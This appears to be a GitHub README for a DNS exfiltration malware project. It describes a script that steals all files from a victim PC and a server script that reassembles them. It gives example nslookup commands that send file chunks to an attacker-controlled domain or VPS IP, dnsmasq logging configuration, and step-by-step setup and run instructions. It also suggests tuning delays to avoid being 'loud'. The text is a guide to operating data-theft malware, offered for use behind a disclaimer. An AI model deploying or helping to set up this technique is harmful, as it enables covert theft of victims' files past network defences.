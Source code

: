 # DnsExfiltration

I do not take any responsibility of your usage

There are two scripts:
	
	1) Malware script that steal all the files from the PC that runs it
	2) DNS server script that recomposes all the victim files 


The first script goes through the file system and It "slowly" send a part of this to a malicious DNS server. I say slowly because for each DNS query this script exfiltrate 8 byte of information.

if you are authoritative for a certain domain you have to set the script in order to execute:
	
	:~$ nslookup x.payload."yourDomain"
	
	for example:
	
	:~$ nslookup x.payload.xor.com

if You are not authoritative, You have just to configure a VPS like a DNS query forwarder and then set the script to make it run:

	:~$ nslookup x.payload."oneDomanin" "MaliciousVpsIP"

	for example:

	:~$ nslookup x.payload.xor.com 172.50.100.150


The payload length is more of 8 byte but It contains 8 byte of one file content + the file part number, the file part number is used to recompose the file parts on the DNS:
	
	A payload may be one of this:
		0 + fileName
		1 + first 8 byte of the file
		2 + the next 8 byte of the file
		3 + again 8 byte ....

From these payloads the malicious DNS script will be able to create and fill the exfiltrated file





## CONFIGURE DNS QUERY FORWARDER:
If you as me can not go to the Delegation Authority to become authoritative for a certain domain, You have to configure a VPS like a DNS query forwarder. I have used 'dnsmasq' demon, you have to configure it:
	
	Open /etc/dnsmasq.conf and append:
		log-queries
		log-facility=/tmp/dnsmasq.log
	These tells dnsmasq to save all the DNS query in a specific file that will be read by the DNS server side script





## HOW TO RUN:
1) Add your domain or the VPS IP in the "exfiltrator.py" malware script.
2) If you are authoritative configure your DNS, if you are not I suggest You to create a VPS and configure dnsmaq as I explain before.
3) Configure the right path in the "composer.py" DNS side script. You have to tell the script where It has to read all the query log. Just to be sure you have understood: Write the path You have set in the DNS configuration or dnsmasq configuration.
4) To have a try, run on the DNS server "composer.py" and then run(or make it run) "exfiltrator.py" script on the victim machine.
5) Wait  

As you can see, the malwares script wait 1 second for each query and wait 1 second for each file passed through the file system. These wait are here because i tested this on my slow VPS... you can remove these waiting or keep it, it depends on how much you want be loud.

As you can see from the code this script supports 1 attack settion
